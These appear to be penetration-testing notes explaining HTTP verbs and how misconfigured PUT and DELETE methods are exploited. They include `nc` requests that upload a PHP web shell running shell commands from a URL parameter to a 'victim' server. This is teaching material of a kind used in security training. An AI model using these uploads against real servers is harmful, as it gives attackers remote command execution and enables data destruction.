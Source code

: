 ```bash
# HEAD is very similar to GET, as it asks just headers of the response instead of the response body
HEAD / HTTP/1.1
Host: www.example.site

# PUT is used to upload a file to a server
PUT /path/to/destination HTTP/1.1
Host: www.example.site

<PUT DATA>

# DELETE is used to remove a file from the server
# Must be configured wisely as it might lead to DoS and data loss
DELETE /path/to/destination HTTP/1.1
Host: www.example.site

# OPTIONS is used to query the web server for enabled HTTP Verbs
OPTIONS / HTTP/1.1
Host: www.example.site
```

## Exploiting Misconfigured HTTP verbs

* 1st you enumerate verbs with an OPTIONS message in `nc`
* To exploit the DELETE verb, you just have to specify the file you want to delete from the server
* Exploiting PUT is more complex, because you have to know the size of the file you want to upload on the server, you can measure with `wc -m file` to count how long, in bytes, a payload is.
* Misconfigured HTTP verbs are becoming rare in web servers.
* You can still find a lot of misconfigured HTTP methods in embedded devices, IP cameras, digital video recorders and other smart devices.

```bash
nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content length: 20

<?php phpinfo(); ?>
```

```bash
# PHP Shell

> nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 136

if (isset($_GET['cmd'])) {
  $cmd = $_GET['cmd'];
  echo '<pre>';
  $result = shell_exec($cmd);
  echo $result;
  echo '</pre>';
}
```

